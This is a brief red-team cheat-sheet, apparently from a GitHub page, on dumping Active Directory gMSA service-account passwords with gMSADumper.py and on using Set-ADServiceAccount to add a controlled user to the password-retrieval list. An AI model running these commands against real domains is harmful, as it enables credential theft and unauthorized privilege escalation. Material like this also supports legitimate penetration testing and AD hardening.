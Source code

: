 # gMSA Passwords:

Find users controled by gMSA Passwords (externaly from your machine), it also check users who can revel the passwords.

`gMSADumper.py -u <user you control> -p <password> -d <domain>`


If you have access to a internal powershell session (evil-winrm, for example) you can also check this information for a particular user:

`Get-ADServiceAccount -Identity <user controlled by gMSA Passwords> -Properties PrincipalsAllowedToRetrieveManagedPassword`


In case you have access, and permisions inside powershell session you can include yourself into the list of users who can revel the passwords:

`Set-ADServiceAccount -Identity <user controlled by gMSA Passwords> -PrincipalsAllowedToRetrieveManagedPassword <user you control>`


Then try to retrive passwords again with gMSADumper.py.

